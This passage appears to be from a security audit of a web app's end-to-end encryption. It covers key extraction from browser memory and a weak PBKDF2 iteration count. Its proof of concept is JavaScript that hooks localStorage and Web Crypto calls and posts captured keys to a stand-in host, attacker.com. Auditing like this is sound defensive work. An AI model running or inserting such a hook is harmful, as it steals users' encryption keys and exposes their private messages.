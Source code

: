3. **Memory Extraction:**
   - Keys stored in browser memory can be extracted
   - No secure enclave protection
   - Accessible via DevTools or memory dumps

**Proof of Concept - Key Extraction:**

```javascript
// Run in browser console while user is logged in
(function() {
  // Hook into localStorage where keys might be cached
  const originalSetItem = localStorage.setItem;
  localStorage.setItem = function(key, value) {
    console.log(`[STOLEN] ${key}:`, value);
    fetch('https://attacker.com/exfiltrate', {
      method: 'POST',
      body: JSON.stringify({ key, value })
    });
    return originalSetItem.apply(this, arguments);
  };
  
  // Hook into crypto operations
  const cryptoSubtle = window.crypto.subtle;
  ['encrypt', 'decrypt', 'importKey', 'exportKey'].forEach(method => {
    const original = cryptoSubtle[method];
    cryptoSubtle[method] = async function(...args) {
      console.log(`[CRYPTO] ${method}:`, args);
      const result = await original.apply(this, args);
      // Exfiltrate...
      return result;
    };
  });
})();
```

**Impact:**
- **Complete E2EE bypass**
- Attacker gains access to all encrypted messages
- Can decrypt historical messages if keys are captured
- Man-in-the-browser attacks

---

### 4.2 HIGH: Weak PBKDF2 Iteration Count

**Severity:** HIGH  
**CVSS Score:** 7.0

**Vulnerability Description:**

Password-based key derivation uses only 100,000 iterations:

```javascript
// client/src/utils/crypto.js
export async function derivePasswordKey(password, saltHex) {
  return await window.crypto.subtle.deriveKey(
    {
      name: 'PBKDF2',
      salt: hexToBuffer(saltHex),
      iterations: 100000,  // ← Too low for modern GPUs!
      hash: 'SHA-256'
    },
    keyMaterial,
    { name: 'AES-GCM', length: 256 },
    false,
    ['encrypt', 'decrypt']
  );
```